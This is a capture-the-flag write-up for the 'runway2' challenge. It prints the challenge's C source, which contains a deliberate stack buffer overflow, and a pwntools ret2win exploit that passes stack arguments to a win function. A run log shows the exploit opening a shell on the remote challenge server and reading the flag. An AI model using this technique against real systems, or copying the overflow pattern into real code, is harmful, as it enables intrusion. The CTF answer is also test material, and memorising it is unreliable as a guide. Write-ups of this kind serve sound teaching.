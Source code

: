 # runway2

This challenge provided the following `runway2.c` file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <fcntl.h>
#include <sys/sendfile.h>

int win(int check, int mate) {
    if (check == 0xc0ffee && mate == 0x007ab1e) {
        printf("You win! Here is your shell:\n");
        fflush(stdout);

        system("/bin/sh");
    } else {
        printf("No way!");
        fflush(stdout);
    }
}

int get_answer() {
    char answer[16];

    fgets(answer, 0x40, stdin);

    return strtol(answer, NULL, 10);
}

int calculate_answer(int op1, int op2, int op) {
    switch (op)
    {
        case 0:
            return (op1 + op2);
        case 1:
            return (op1 - op2);
        case 2:
            return (op1 * op2);
        case 3:
            return (op1 / op2);
        default:
            exit(-1);
    }
}

int main() {
    int op1;
    int op2;
    int op;
    char operands[5] = "+-*/";
    int input;
    int answer;

    srand(time(0));

    printf("Pop quiz!\n");
    fflush(stdout);

    op1 = rand() % 30;
    op2 = rand() % 30;
    op = rand() % 4;

    printf("What is %d %c %d?\n", op1, op[operands], op2);
    fflush(stdout);

    input = get_answer();
    answer = calculate_answer(op1, op2, op);

    if (input == answer) {
        printf("Good job! No flag though :)\n");
    } else {
        printf("I don't think you're trying very hard.\n");
    }

    return 0;
}
```

This challenge, similar to `runway1`, is a `ret2win` challenge, just that this time the `win` function
expects some arguments.

To figure out how to pass these arguments, let's take a look at the provided `Makefile`:

```makefile
all: runway2.c
        gcc runway2.c -o runway2 -fno-stack-protector -no-pie -m32
```

This uses the same compiler options as in `runway1`, but this time `-m32` is more meaningful. In 32-bit
binaries, the aguments are stored on the stack rather than in registers. This makes the call rather
easier, since we don't have to deal with finding a way to get those arguments in the right registers.

As with `runway1`, I used [this site](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to get
a cyclic string to paste into `pwndbg`, which gave me this:

> Invalid address 0x62413961

For which that site returned an offset of `28`.

Using that, I built my exploit, with the arguments for the function placed two bytes after the `win` address:

```python
import pwn

pwn.context.binary = elf = pwn.ELF("./runway2")


if pwn.args.REMOTE:
    io = pwn.remote("challs.pwnoh.io",13402)
else:
    io = pwn.process("./runway2")

win = elf.symbols["win"]

io.recvline()
io.recvline()

payload = b'A' * 28
rop_chain = [
            win, 0, 0xc0ffee, 0x007ab1e
            ]
for directive in rop_chain:
    payload += (directive).to_bytes(4, "little")
io.sendline(payload)

io.interactive()
```

And here's that in action:
```
# python3 exploit.py REMOTE SILENT
You win! Here is your shell:
$ ls
flag.txt
run
$ cat flag.txt
bctf{I_m1sS_4r1thm3t1c_qu1ZZ3s_2349adb53baa2955}
```

Giving the flag `bctf{I_m1sS_4r1thm3t1c_qu1ZZ3s_2349adb53baa2955}`
